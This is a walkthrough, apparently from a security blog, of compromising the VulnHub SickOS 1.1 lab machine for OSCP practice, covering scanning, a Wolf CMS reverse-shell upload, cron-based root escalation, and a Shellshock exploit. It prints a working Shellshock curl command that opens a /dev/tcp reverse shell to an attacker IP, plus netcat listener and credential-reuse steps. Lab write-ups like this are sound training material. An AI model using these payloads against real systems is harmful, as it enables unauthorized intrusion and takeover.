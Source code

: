 ```yaml
---
title:  "SickOS 1.1 Walkthrough"
header: "SickOS 1.1 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


The SickOS series from vulnhub are a really good taste for what you can expect to find while purusing your OSCP. Below is a walkthrough of how to compromise the machine and obtain the flag. I've seperated it into two options as there are many different ways to compromise this particular machine. Post or reach out if you know of some other ways!

# Host Enumeration  
***

Of course we start off with an nmap scan to see what we're working with
`nmap –sV 192.168.32.133`  
![Nmap Scan](/assets/images/sickosnmap.JPG)  

# Service Enumeration  
***
![Services](/assets/images/sickosservices.JPG)  
 
So at this point I took notes of the ports, likely OS version, and the services running. Since there’s a proxy configured and a closed 8080 port, I went ahead configured my browser through port 3128 with the assumption there’s a website possibly hosted on this server.  

>**Helpful Note:**
You can do this by opening Iceweasel > Properties > Preferences > Advanced > Network > Settings. Select Manual Proxy Configuration and place the IP address and appropriate port and select “OK” once done.  
![Proxy Config](/assets/images/sickosproxyconfig.jpg)  

 Next I navigated to port 8080 with a connection failure and simply tried the standard HTTP port 80 and was presented with a page containing “BLEHHH!!!” on it.  
![Blehhh](/assets/images/sickosblehh.JPG)  

Inspecting the source didn’t reveal anything useful but then I tried robots.txt which contained an interesting folder “/wolfcms”.  
![SickOS Robots](/assets/images/sickosrobots.JPG)  

While manually researching wolfcms, I kicked off a general nikto scan and a dirb scan of the wolfcms directory.

Nikto Usage: `nikto -h 192.168.32.133 -useproxy http://192.168.32.133:3128`  
Dirb Usage: `dirb http://192.168.32.133/wolfcms -p 192.168.32.133:3128`  

I noted multiple publically released vulnerabilities for Wolf CMS, one in particular was an [Arbitrary File Upload /Execution](https://www.exploit-db.com/exploits/38000/) that seemed to foot the bill if I were able to get logged in. A quick google search revealed the standard login page would be `/admin/` or `/?admin/` depending on the mod_rewrite status. In this case, the correct path was `/wolfcms/?admin/`. Navigating to this URL presented a Wolf CMS login screen.  

![SickOS Wolf CMS Login](/assets/images/sickoswolflogin.JPG)  

At this time I decided to review what my scans came back with as I had a pretty good feel for where this was going from a Wolf CMS standpoint.

### Dirb  
Dirb revealed several directories but most notably the `/public/` directory which was also mentioned in the vulnerability page mentioned above.  

![SickOS Dirb](/assets/images/sickosdirb.JPG)  

### Nikto  

Nikto had even more interesting information such as it possibly being vulnerable to shellshock.  
![SickOS Nikto](/assets/images/sickosnikto.JPG)  

This is where the options occur, Option 1 goes after the CMS and Option 2 goes after shellshock. Shellshock is certainly the popular way in but I recommend doing both just for the experience. Just as an FYI, the privilege escalation techniques are different for each but can be done in either scenario.

# Compromise Option 1 - CMS Way  
***
### Breach  
I searched for default username/password combinations but it appears to be generated at install so there wasn’t much luck on that front. So I navigated back to the login screen `/wolfcms/?admin/` to try some basic username/password combos and one of the first tries was a success with admin/admin.  

![SickOS Wolf Main Page](/assets/images/sickoswolfmain.JPG)  

Upon entry, I snooped around a few places just checking out versioning and to see if anything caught my eye. Naturally the files section stuck out like a sore thumb, particularly since it shows read/write permissions and the ability to upload files. Essentially, this is what the exploit noted above was describing; find a way to upload a shell and then navigate to it. As with many others, [pentestmonkey.net’s](http://pentestmonkey.net/) reverse PHP shell comes to the rescue again. I plugged in my attacking machines IP and uploaded it.  

![SickOS Wolf Upload](/assets/images/sickoswolfupload.JPG)  

Since it appears that it’s in the public directory (that I discovered earlier with Dirb), all that is needed is to set up a listener and navigate to the uploaded malicious php page

> **Helpful Note:**
Listener: `nc –nlvp 4444`  

I was then presented with a shell to my attacking machine as the www-data user  

![SickOS Shell 1](/assets/images/sickosshell1.JPG)  

### Privilege Escalation  
 
I noticed an interesting cron entry that ran `/var/www/connect.py` in which the www-data user had write access to. So I replaced the contents of connect.py with a python shell obtained from [Trustedsec](https://www.trustedsec.com/) and set up a listener. After a few seconds I was presented with a shell as the root user which was able to obtain the flag.  

![SickOS root 1](/assets/images/sickosroot1.JPG)  

# Compromise Option 2 - Shellshock Way  
***

### Breach  
From the output of the Nikto scan, it appears that this machine is vulnerable to shellshock. I don’t want to belabor shellshock as it’s very widely publicized and documented well. However, you should be familiar with it as it will likely come up in future endeavors ([link 1](https://fedoramagazine.org/shellshock-how-does-it-actually-work/), [link 2](https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability), [link 3](https://blog.cloudflare.com/inside-shellshock/))

There are many ways to do this, but in my haste I chose to use curl (this would be a great exercise to go through with Burp as well). I set up a listener, and used the below curl command to send to the attacking machine.
`curl -x http://<TARGET IP>:3128 -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/<ATTACKING IP>/1234 0>&1" http://<TARGET IP>/cgi-bin/status`  

Once the command was sent, I was able to receive a reverse shell as the www-data user.  

![SickOS Shell 2](/assets/images/sickosshell2.JPG)  

### Privilege Escalation  

Once on the machine, I began the information collection phase and came upon an interesting file `/var/www/wolfcms/config.php`. You should always check out the config files, people hardcode all kinds of juicy information in them.  

![SickOS Database Config](/assets/images/sickosdbconfig.JPG)  

As it shows above, the SQL root user has the password of “john@123”. Naturally once you’ve obtained any type of credential you should see if the user can fall victim to password reuse. A quick `cat /etc/passwd` command shows a non-standard user “sickos”. I attempted to SSH as that user and with the credential found in the config file and was able to successfully log in.  

Upon logging, I checked to see if the user had sudo privileges by using `sudo –l` and as you will see below, the user does have the necessary privileges.  

![SickOS Sudo Options](/assets/images/sickossudoop.JPG)  

All that is left to do is `sudo su`  

![SickOS Sudo](/assets/images/sickossudo.JPG)  

Once as the root user you can move to the /root directory and display the flag  

![SickOS root 2](/assets/images/sickosroot2.JPG)  

# Conclusion  
***

I believe there are some additional easter eggs to find here but had to move on to other things. I thought it was a good representation of some of the machines that you'll experience in the OSCP labs. I would consider this machine on the easy side but it teaches you good lessons and encourages you to follow your hunches and solidify your enumeration process.
